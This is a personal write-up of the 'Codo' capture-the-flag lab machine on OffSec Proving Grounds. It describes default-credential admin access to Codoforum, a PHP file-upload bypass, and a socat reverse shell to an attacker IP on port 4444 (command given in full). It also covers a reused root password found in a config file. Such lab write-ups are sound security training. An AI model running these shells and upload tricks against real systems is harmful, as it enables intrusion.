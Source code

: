 # PG Practice - Codo
## Machine Author: Offsec
## Released on: June 16, 2023
### Difficulty: Easy
### Community Difficulty: Easy
### Description: Part 2 of Mid Year CTF machines.
### Write up - Kaib3r
### Completion date - 29/03/2024


#### Introduction:

This was my second completed machine in Proving grounds without checking a write up, the first machine I did I gave up and checked a write up and realised I'd missed a couple of ports due to not doing an all ports nmap.

This was one was quite simple and I'd done it straight off the back of Sar the PG Play machine a community created machine by Love Sharma. So I had a flow going and got a foot hold in the first 10 mins most of my time was spent trying to Priv Esc without the use of Linpeas which I eventually gave in and transferred it over and ran it and got root within 10-20 minutes.

The basic steps I took are below.

| Step: | Notes: |
| --- | --- |
| 1. | I ran a all ports nmap scan without a T4 switch to get started and ran another in parallel for speed with a T4 switch and of only common ports. |
| 2. | My fast NMAP scan found port 80 opened and I navigated to it and found codologic codoforum installed. |
| 3. | I fuzzed the directory and found the admin portal, I tested the default credentials admin:admin and got in. |
| 4. | I was able to get the exact version of codoforum (Version 5.1.105) and start researching for an exploit. |
| 4.1 | ![ImgPlaceholder](img/codo-image-1.png) |
| 5. | I found an exploit from Vikaran101s Github https://github.com/Vikaran101/CVE-2022-31854/tree/main and tested this out. |
| 5.1 | Unfortunately when trying to utilize this exploit I ran into an error, thankfully Vikaran101 pointed me in the right direction with his error code and pointed out trying to do the upload manually. I realised that this was just an automated version of an insecure file upload which I could of found myself if I had of explored the admin panel more effectively. |
| 5.2 | ![ImgPlaceholder](img/codo-image-1.png) | 
| 6. | I decided to use Burpsuite to capture the file upload exploited through the admin panel. I navigated to admin panel> global settings> change forum logo for codoforum and uploaded the first picture that was in my files (a TCMAcademy logo those who have done the web exploitation section of the Practical Ethical Hacking course from them will understand why :P ) |
| 6.1 | I caught the file upload with Burp suite and modified the PNG upload to have a .php extension and left the magic bytes of the image and some of the PNG unicode/garbage that comes up and added my php one liner into it.  |
| 6.2 | ![ImgPlaceholder](img/codo-image-3.png) |
| 7. | I caught a shell through this and converted it to tty with socat (due to just coming out of the sar machine this was my go to ) commands used below |
| 7.1 | Attack Box: ```socat file:`tty`,raw,echo=0 tcp-listen:4444``` |
| 7.2 | Target:```socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.45.175:4444```` |
| 8. | I decided to practice my Linux priv esc without Linpeas for a solid 20-30 mins but ended up transferring over linpeas to see what it dredged up. |
| 8.1 | Linpeas found a password in a php config file ```/var/www/html/sites/default/config.php``` "FatPanda123" |
| 9. | According to the config file it was the credentials were the access to the mysql db on the server which I quickly realised I had no access to. |
| 10. | I decided to credential stuff the list of users I found earlier with I cat'd the passwd file. This password ended up being the same as roots and the machine was pwned. |
| 10.1 | ![ImgPlaceholder](img/codo-image-4.png) |

| Lessons Learnt: | |
| --- | --- |
| 1. | Complete the functionality test of a website if you come across one, if you get admin access on the site, complete it again. I could of skipped utilizing the exploit from GitHub though I'm thankful for it and saved time by running the exploit myself which I'd already tested on the avatar upload for standard user accounts. superuser/admin areas typically have lower defenses then outside them. |
| 2. | Don't reuse passwords or store them in your config files |
| 3. | Patch applications regularly. |
